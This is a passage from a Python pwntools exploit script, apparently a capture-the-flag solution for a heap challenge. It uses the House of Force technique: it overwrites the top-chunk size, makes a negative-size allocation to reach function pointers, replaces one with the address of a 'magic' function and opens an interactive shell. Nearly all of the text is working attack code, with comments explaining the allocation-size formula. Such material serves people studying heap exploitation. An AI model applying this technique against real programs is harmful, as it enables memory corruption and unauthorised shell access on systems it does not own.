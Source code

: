 ```py
    s(n)
def edit_item(ind,nl,nn):
    s(3,"choice:")
    s(ind)
    s(nl)
    p.sendlineafter(":",nn)
def remove_item(ind):
    s(4,"choice:")
    s(ind)
magic=binary.symbols['magic']

add_item(48,"A"*48) # usable chunk size: 56 ; real size: 64/65

edit_item(0,64,b"A"*56+b"\xff\xff\xff\xff\xff\xff\xff\xff") # overwrite wilderness
log.log("overwrite wilderness")
pause()
#offset to wilderness & overwrite w/ -1
#add_item("-112","AAAAAAAA")
add_item("-112","AAAAAAAA") # will overwrite welcome_message func ptr with AAAAAAAA
# malloc will return usable chunk size of 4294971376 between -104 and -118
# general formula around calculating the "approximate" chunk size to pass to malloc after h.o.f
#
# requestSize = (size_t)victim            // The target address/chunk that malloc should return
#                 - (size_t)top_chunk     // The present address of the top chunk/addr of wilderness
#                 - 2*sizeof(long long)   // Size of 'size' and 'prev_size' / sizeof(long long)*2 = 16;
#                 - sizeof(long long);    // Additional buffer / sizeof(long long) = 8;
#
# credit: https://heap-exploitation.dhavalkapil.com/attacks/house_of_force

#pause()
add_item("16","overflow_me_senpai") # alloc new chunk, overwrite func ptrs

edit_item(2,16,b"A"*8 + pack.pk64(magic)) # edit, and overwrite
# idk if we need this, but i dont wanna edit my add_item helper func and edit everything to send raw

#pause()
p.sendlineafter("choice:","5")
log.log("SHELL INCOMING!!! SHELL INCOMING!!!")
p.interactive()
```
